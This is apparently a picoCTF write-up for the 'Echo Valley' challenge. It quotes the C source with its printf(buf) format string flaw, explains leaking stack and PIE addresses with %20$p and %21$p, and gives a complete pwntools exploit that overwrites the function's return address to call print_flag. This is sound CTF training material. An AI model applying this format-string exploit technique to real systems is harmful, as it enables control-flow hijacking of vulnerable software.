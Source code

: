 After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 

![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324190354.png)
Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
![[Pasted image 20250324192246.png]]

and **%20$p** is the stack leak
![[Pasted image 20250324192511.png]]

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
![[Pasted image 20250324193118.png]]
